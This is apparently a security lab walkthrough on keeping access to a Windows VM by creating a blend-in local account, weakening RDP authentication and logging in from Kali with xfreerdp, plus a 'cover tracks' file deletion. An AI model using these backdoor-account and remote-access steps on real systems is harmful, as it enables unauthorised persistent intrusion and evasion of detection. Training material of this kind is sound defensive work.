 # Persist On A Windows Machine With A Malicious User Account
Creating a malicious local account is a simple way to install a backdoor, often going unnoticed in poorly managed networks. Even if detected, it may remain due to concerns over breaking functionality. Skilled attackers may avoid giving the account admin rights, opting instead to plant a privilege escalation vulnerability for future use

## Tasks
- Create a user with an inconspicuous name that would seamlessly blend into an organization in a VM
- Initiate an RDP connection to the target system from a separate machine, utilizing the malicious account's credentials to showcase successful access
- Navigate the system's directories to emphasize the subtle nature of the malicious account's presence and the potential challenges in detection
- Generate a dummy file in a sensitive directory to simulate a security breach, demonstrating how a malicious actor might misuse this access for unauthorized file manipulation
- Show how the malicious account can be used to cover tracks, such as deleting the dummy file

## Solutions With Scripts
1. Open PowerShell as Administrator in Windows 10 VM
2. Add a user with a non-suspicious name such as `svc_network` or `backup_admin`
   ```
   net user svc_network password123 /add
   ```
3. Add the user to a specific group like "Users". Avoid giving it administrative privileges to make the account less suspicious
   ```
   net localgroup Users svc_network add
   ```
4. To enable RDP (Remote Desktop Protocol) on Windows 10 VM, go to Settings > System > Remote Desktop (left panel). Turn on Enable Remote Desktop. In the Advanced settings,  uncheck the Network Level Authentication as shown below
   ![image](https://github.com/user-attachments/assets/2775be67-8ec5-46b1-842a-2b6fefe6dc84)
5. Allow RDP through Windows Firewall and ensure that Remote Desktop is checked for both private and public networks
6. To initiate an RDP connection from Kali Linux, install `xfreerdp` using the following commands
   ```
   sudo apt update
   sudo apt install freerdp2-x11
   ```
7. Enable the default port for RDP (3389) in Kali Linux using the each of the commands below
   ```
   sudo ufw status
   sudo ufw allow 3389/tcp
   sudo ufw reload
   sudo ufw status
   ```
8. Use the malicious account credentials (`svc_network`) to connect to Windows 10 VM via RDP
   ```
   sudo xfreerdp /u:svc_network /p:password123 /v:192.168.1.21 /dynamic-resolution /cert:ignore /sec:tls
   ```
9. To simulate a security breach, create a dummy file in a sensitive directory like C:\Program Files or C:\Windows\Temp. Run the following command
   ```
   echo "Sensitive data" > C:\Windows\Temp\dummymaliciousfile.txt
   ```
10. To cover up the tracks, delete the dummy file
   ```
   del C:\Windows\Temp\dummymaliciousfile.txt
   ```
11. Close the RDP connection by logging out of the RDP session from Kali Linux by pressing Ctrl+C to end the xfreerdp session
